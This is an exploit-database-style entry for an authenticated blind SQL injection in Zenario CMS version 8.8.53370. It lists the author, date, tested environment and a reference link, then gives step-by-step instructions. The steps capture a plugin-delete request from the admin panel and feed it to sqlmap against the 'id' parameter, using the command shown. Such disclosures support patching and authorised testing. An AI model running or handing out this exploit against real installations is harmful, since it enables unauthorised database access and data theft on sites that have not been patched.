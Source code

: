 EXP
---

    # Exploit Title: Zenario CMS 8.8.53370 - 'id' Blind SQL Injection
    # Date: 05/02/2021
    # Exploit Author: Balaji Ayyasamy
    # Vendor Homepage: https://zenar.io/
    # Software Link: https://github.com/TribalSystems/Zenario/releases/tag/8.8
    # Version: 8.8.53370
    # Tested on: Windows 10 Pro 19041 (x64_86) + XAMPP 7.4.14

    # Reference - https://edhunter484.medium.com/blind-sql-injection-on-zenario-cms-b58b6820c32d

    Step 1 - Login to the zenario cms with admin credentials.
    Step 2 - Go to modules and select plugin library.
    Step 3 - Select any plugin and press delete button. Copy the delete request and send it to the sqlmap.

    Command - sqlmap -r request.txt -p id